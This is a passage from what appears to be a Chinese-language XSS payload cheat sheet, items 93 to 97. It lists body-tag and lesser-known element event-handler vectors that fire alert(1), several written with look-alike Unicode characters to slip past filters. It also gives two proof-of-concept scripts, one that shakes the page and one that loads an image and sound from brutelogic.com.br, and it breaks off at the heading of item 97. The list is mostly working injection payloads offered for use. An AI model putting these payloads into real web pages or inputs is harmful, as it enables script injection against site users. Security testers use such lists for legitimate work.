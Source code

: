 ##### 93.Body Tag (body 标签)

```
body标签的集合。最后一个只适用于Internet Explorer浏览器。

<body οnlοad=alert(1)>
<body οnpageshοw=alert(1)>
<body οnfοcus=alert(1)>
<body οnhashchange=alert(1)><meta content=URL;%23 http-equiv=refresh>
<body οnscrοll=alert(1) style=overflow:auto;height:1000px id=x>#x
<body οnscrοll=alert(1)><x id=x>#x
<body οnresize=alert(1)>press F12!
<body onhelp=alert(1)>press F1!
```

#### 0x06枚举

##### 94.Less Known XSS Vectors (未知的XSS向量)

```
未知的XSS向量的集合。 

<marquee onstart=alert(1)>
<audio src οnlοadstart=alert(1)>
<video οnlοadstart=alert(1)><source>
<video οntimeupdate=alert(1) controls src=//brutelogic.com.br/x.mp4>
<input autofocus οnblur=alert(1)>
<keygen autofocus οnfοcus=alert(1)>
<form οnsubmit=alert(1)><input type=submit>
<select οnchange=alert(1)><option>1<option>2
<menu id=x contextmenu=x οnshοw=alert(1)>right click me!
<object οnerrοr=alert(1)>
```

##### 95.Alternative PoC - Shake Your Body (非传统的xss payload)

```
以下payload用于摇动页面的所有元素，作为漏洞验证的良好可视化。

setInterval(x=>{b=document.body.style,b.marginTop=(b.marginTop=='4px')?'-4px':'4px';},5)
```

##### 96.Alternative PoC - Brutality (非传统的xss payload)

```
以下payload用于显示"Mortal Kombat’s Sub-Zero"角色的图像以及"brutality"的游戏声音。

d=document,i=d.createElement('img');i.src='//brutelogic.com.br/brutality.jpg';
d.body.insertBefore(i,d.body.firstChild);new(Audio)('//brutelogic.com.br/brutality.mp3').play();
```

##### 97.Alternative PoC - Alert Hidden Values (非传统的xss payload)
